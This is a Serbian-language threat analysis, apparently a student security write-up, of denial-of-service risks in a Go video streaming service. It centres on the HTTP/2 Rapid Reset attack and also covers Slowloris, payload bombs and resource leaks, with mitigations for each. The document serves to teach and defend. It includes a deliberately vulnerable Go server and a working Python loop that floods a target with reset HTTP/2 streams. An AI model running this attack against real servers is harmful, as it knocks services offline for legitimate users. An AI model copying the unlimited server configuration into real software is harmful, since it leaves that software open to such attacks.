

# DoS Golang Servisa – Analiza Pretnje

Video Streaming Service je Go aplikacija koja studentima omogućava pristup edukativnom video sadržaju. Denial of Service (DoS) napadi targetiraju ovaj servis sa ciljem da ga učine nedostupnim legitimnim korisnicima kroz iscrpljivanje sistemskih resursa kao što su CPU, memorija, i sl. DoS napadi direktno narušavaju **dostupnost (Availability)** - jedan od tri fundamentalna principa CIA trijade (Confidentiality, Integrity, Availability) - čineći sistem funkcionalno neupotrebljivim.

Slika ispod predstavlja stablo napada – sumiranu vizualizaciju/pregled ranjivosti koje omogućuju DoS, opise konkretnih napada, te njihovih mitigacija, a koje su opisane u nastavku dokumenta:



---

## I. Praktičan Napad i Mitigacija: HTTP Rapid Reset DoS

### Identifikacija Ranjivosti

Ova pretnja je povezana sa ranjivošću **CVE-2023-44487**, poznatom kao HTTP/2 Rapid Reset napad, zatim sa Go bezbednosnim obaveštenjem **GO-2023-2012**, kao i sa ranjivošću **CVE-2023-39325** koja se odnosi na implementaciju HTTP/2 u okviru Go `net/http` paketa. Po svojoj suštini, problem se klasifikuje kroz Common Weakness Enumeration **CWE-770** (Allocation of Resources Without Limits or Throttling) i **CWE-400** (Uncontrolled Resource Consumption), jer omogućava napadaču da izazove nekontrolisanu potrošnju sistemskih resursa usled nepostojanja adekvatnih ograničenja i kontrole alokacije.

---

### Opis Napada

HTTP/2 protokol predstavlja nadogradnju HTTP/1.1 protokola i uvodi pojam **multipleksinga** koji omogućava da više HTTP zahteva (stream-ova) bude aktivno istovremeno na jednoj TCP konekciji. Svaki stream ima jedinstveni identifikator i nezavisan je od drugih stream-ova na istoj konekciji. Ova arhitektura rešava head-of-line blocking problem prisutan u HTTP/1.1 gde zahtevi moraju čekati redom.

HTTP/2 specifikacija definiše **RST_STREAM frame** - kontrolni frame koji omogućava klijentu ili serveru da prekine procesiranje stream-a pre nego što je završen. Ovo je funkcionalnost dizajnirana za scenarije kao što su korisnik koji otkazuje download ili timeout pri čekanju odgovora.

Go standardna biblioteka implementira HTTP/2 server kroz `net/http` paket. Kada server primi HTTP/2 zahtev, automatski kreira **goroutine** koja obrađuje taj zahtev. Go runtime scheduler mapira goroutine-e na operativne sistemske thread-ove. Pod normalnim okolnostima, ovo omogućava efikasno skaliranje i obradu hiljada simultanih zahteva. Međutim, ova arhitektura postaje vektor napada kada se kombinuje sa HTTP/2 stream reset mehanizmom. Napadač eksploatiše karakteristiku Go HTTP/2 implementacije: goroutine se kreira odmah nakon prijema HEADERS frame-a, pre nego što se ceo zahtev procesuira.

**Redosled događaja tokom napada:**
1. Napadač otvara HTTP/2 konekciju ka Video Streaming Servisu
2. Šalje HEADERS frame koji započinje novi stream (npr. zahtev ka ranjivom endpointu)
3. Go server prima HEADERS frame i alocira goroutine za obradu zahteva
4. Server započinje procesiranje - parsira headere, priprema odgovor
5. Pre nego što server završi obradu, napadač šalje RST_STREAM frame koji otkazuje stream
6. Go server mora da zaustavi goroutine, dealocira resurse, oslobodi memoriju
7. Napadač odmah šalje novi HEADERS frame sa novim stream ID-em

Proces se ponavlja hiljade puta u sekundi.

Server konstantno alocira i dealocira resurse bez da ikad vrati legitiman odgovor. CPU overhead je ogroman jer server mora procesirati svaki stream dovoljno da može korektno da ga otkaže. Garbage collector je pod pritiskom jer se objekti konstantno kreiraju i uništavaju.

Pre patcha CVE-2023-39325, Go `net/http` implementacija nije pravilno brojala simultano izvršavajuće handler goroutine-e. Server je proveravao broj aktivnih stream-ova ali ne i broj goroutine-a koje još uvek izvršavaju handler kod nakon što je stream resetovan.

Kada klijent resetuje stream dok je handler još aktivan, server povećava broj dostupnih slotova za nove stream-ove ali ne čeka da handler goroutine završi. Ovo omogućava napadaču da kontinuirano kreira nove stream-ove dok stari još uvek troše CPU i memoriju.

---

### Primer Ranjivog Koda
```go
package main

import (
	"fmt"
	"log"
	"net/http"
	"time"
)

func main() {
	http.HandleFunc("/api/video/authorize", handleVideoAuthorize)
	
	// RANJIV: Nema HTTP/2 konfiguracije
	// MaxConcurrentStreams nije postavljen
	// Server prihvata neograničen broj stream-ova
	server := &http.Server{
		Addr: ":8080",
	}
	
	log.Println("Vulnerable server starting on :8080")
	log.Fatal(server.ListenAndServe())
}

func handleVideoAuthorize(w http.ResponseWriter, r *http.Request) {
	// Simulira autorizacionu logiku koja traje ~50ms
	// JWT validacija, enrollment provera, presigned URL generisanje
	time.Sleep(50 * time.Millisecond)
	
	fmt.Fprintf(w, `{"status":"authorized","url":"https://minio.example.com/video/123"}`)
}
```

**Karakteristike ranjivog koda:**
- `MaxConcurrentStreams` nije eksplicitno postavljen (neograničeno)
- Nema rate limiting-a na nivou konekcije
- Nema detekcije anomalnih RST_STREAM pattern-a

---

### Primer Napada
```python
def rapid_reset_attack(host, port, duration_seconds=30):
    """
    HTTP/2 Rapid Reset napad
    Kreira stream-ove i odmah ih resetuje u petlji
    """
    print(f"[*] Targeting {host}:{port}")
    
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))
    
    config = H2Configuration(client_side=True)
    conn = H2Connection(config=config)
    conn.initiate_connection()
    sock.sendall(conn.data_to_send())
    
    stream_id = 1
    start_time = time.time()
    request_count = 0
    
    print(f"[*] Starting attack for {duration_seconds} seconds")
    
    try:
        while time.time() - start_time < duration_seconds:
            # Šalji HEADERS frame (otvori stream)
            headers = [
                (':method', 'GET'),
                (':path', '/api/video/authorize'),
                (':scheme', 'http'),
                (':authority', f'{host}:{port}'),
            ]
            conn.send_headers(stream_id, headers)
            
            # ODMAH resetuj stream (ključ napada)
            conn.reset_stream(stream_id, error_code=0)
            
            data = conn.data_to_send()
            if data:
                sock.sendall(data)
            
            request_count += 1
            stream_id += 2  # HTTP/2 client stream IDs su neparni
            
            if request_count % 1000 == 0:
                rate = request_count / (time.time() - start_time)
                print(f"[*] Sent {request_count} stream resets ({rate:.0f}/sec)")
        
    except Exception as e:
        print(f"[-] Error: {e}")
    finally:
        sock.close()
        rate = request_count / (time.time() - start_time)
        print(f"\n[+] Attack completed: {request_count} streams ({rate:.0f}/sec)")
```

---

### Mitigacija

Mitigacija obuhvata ispravnu eksplicitnu konfiguraciju, ažuriranje verzije, te arhitekturalne mere zaštite.
```go
func main() {
	mux := http.NewServeMux()
	mux.HandleFunc("/api/video/authorize", handleVideoAuthorize)
	
	// HTTP/2 konfiguracija sa mitigacijama
	h2s := &http2.Server{
		MaxConcurrentStreams: 100,              // MITIGACIJA 1
		IdleTimeout:          30 * time.Second, // MITIGACIJA 2
	}
	
	server := &http.Server{
		Addr:         ":8080",
		Handler:      h2c.NewHandler(mux, h2s),
		ReadTimeout:  10 * time.Second,   // MITIGACIJA 3
		WriteTimeout: 10 * time.Second,
		IdleTimeout:  120 * time.Second,
	}
	
	log.Println("Patched server with HTTP/2 mitigations")
	log.Fatal(server.ListenAndServe())
}
```

**Primarna mitigacija** je ažuriranje na Go verziju **1.21.3 ili noviju** koja sadrži patch za CVE-2023-39325. Od ove verzije server broji ne samo broj stream-ova već i goroutine koje trenutno izvršavaju handler kod – uvećava/umanjuje brojač kada goroutine započne/završi handler (smanjuje ga i ako je stream resetovan). Novi stream se ne prihvata dok brojač ne padne ispod `MaxConcurrentStreams`.

**Arhitekturalna mitigacija** podrazumeva postavljanje nginx ili Cloudflare reverse proxy-ja ispred Go servisa koji ograničava broj konekcija po IP adresi, detektuje i blokira anomalne HTTP/2 otkaze zahteva i apsorbuje napad pre nego što stigne do aplikacije.

---

## II. Dodatne DoS Ranjivosti u Golangu

### 1. Slowloris Napad (Slow HTTP Attack)

Takođe je napad na `net/http` komponentu, u kojoj po default-u ne postoje Timeout ograničenja i jednom otvorena konekcija u ovom slučaju, ukoliko nema eksplicitne konfiguracije Timeout-a, biva stalno otvorena. Ovo napadaču omogućava da otvara veliki broj HTTP konekcija ka serveru i šalje zahteve ekstremno sporo. Server drži konekcije otvorene čekajući kompletan zahtev koji nikad ne stigne. Iscrpljuju se dostupni connection slotovi i legitimni korisnici ne mogu pristupiti servisu. Dakle, mitigacija predstavlja eksplicitno konfigurisanje timeout-a.

---

### 2. JSON Unmarshaling DoS (Large Payload Attack)

`json.Unmarshal` u okviru `encoding/json` Go paketa nema u sebi ugrađenu validaciju na veličinu payload-a ili dubinu nesting-a, što ovaj paket čini ranjivim budući da je napadač u mogućnosti da pošalje payload sa duboko ugnežđenom strukturom sa velikim brojem key-value parova i ogromnim string-ovima, što crpi resurse servera pri parsiranju. Stoga je neophodno konfigurisati validacije: validaciju veličine request body-a pre unmarshaling-a i korišćenje streaming decoder-a umesto `json.Unmarshal` celog payload-a u memoriju što omogućava obradu JSON-a po delovima. Dodatno, rešenje je i rate limiting, timeout na nivou handler funkcije te definisanje limita na dubinu nesting-a kroz custom unmarshaler.

---

### 3. Gzip Decompression Bomb

`net/http` paket takođe nema ni provere gzip fajlova što pri automatskom dekompresovanju request-a sa `Content-Encoding: gzip` header-om može dovesti do out-of-memory crash-a Go servera. Memorijski mali payload dekompresuje u ogroman fajl, za koji server alocira memoriju i potom usled nedostatka memorije pada. Mitigacija zahteva disable-ovanje automatskog decompression-a i manuelno dekompresovanje samo za proverene korisnike, ili korišćenje `io.LimitReader` koji ograničava koliko bajtova se čita iz dekompresovanog stream-a. Validacija `Content-Encoding` header-a pre prihvatanja zahteva omogućava odbacivanje gzip-ovanih payload-a na endpoint-ima koji ne zahtevaju kompresiju, dok monitoring memorijske potrošnje po zahtevu detektuje anomalne alokacije koje su indikacija napada.

---

### 4. Goroutine Leak

Ovo ne podrazumeva ranjivost određene komponente – sam nemar developera ukoliko ostavi viseće goroutine koje se nikad ne završavaju (goroutine-e koje čekaju na događaj koji se nikad ne dešava - channel koji nikad ne šalje vrednost ili context koji nikad ne biva otkazan) dovodi do iscrpljivanja memorije i manifestuje se produkcijskim opterećenjem i postepenom degradacijom performansi kroz češći rad garbage collector-a, overhead scheduler-a, i kontinuirani rast memorijske potrošnje. Mitigacija zahteva disciplinovan lifecycle management gde svaka goroutine ima jasan exit uslov kroz context cancellation, zatvaranje kanala, ili timeout mehanizam.

---

### 5. Multipart Form Upload Exhaustion

Multipart form upload napad koristi način kako Go `http` paket obrađuje file upload-e. Pri pozivu `ParseMultipartForm(maxMemory)`, parametar `maxMemory` ne predstavlja maksimalnu dozvoljenu veličinu upload-a već samo određuje kada će Go preći sa čuvanja fajlova u memoriji na čuvanje u privremene fajlove na disku. Napadač ovo iskorištava na dva načina: šalje hiljade sitnih fajlova gde svaki troši sistemski file descriptor dok ih ne ponestane, ili šalje mnogo simultanih upload-a koji pune `/tmp` direktorijum dok disk ne ostane bez prostora. Mitigacija podrazumeva kreiranje custom upload handler-a koristeći `mime/multipart.Reader` koji direktno stream-uje fajl u skladište umesto skladištenja u privremene fajlove, proveru broja fajlova u zahtevu pre parsiranja, praćenje ukupne veličine tokom upload-a; uvođenje prekida ako prekorači limit, ograničenje koliko simultanih upload-a jedan korisnik može imati aktivno, validacija da li ima dovoljno disk prostora pre prihvatanja upload-a, brisanje nedovršenih upload-a nakon određenog vremena, i definisanje maksimalnog prostora koji svaki korisnik može zauzeti.

---

## Reference

- **CVE-2023-44487**: https://nvd.nist.gov/vuln/detail/CVE-2023-44487
- **GO-2023-2012**: https://pkg.go.dev/vuln/GO-2023-2012
- **CVE-2023-39325**: https://nvd.nist.gov/vuln/detail/CVE-2023-39325
- **Go Vulnerability Database**: https://vuln.go.dev/
- **OWASP Go Secure Coding Practices**: https://github.com/OWASP/Go-SCP
- **CWE-770**: https://cwe.mitre.org/data/definitions/770.html
- **CWE-400**: https://cwe.mitre.org/data/definitions/400.html
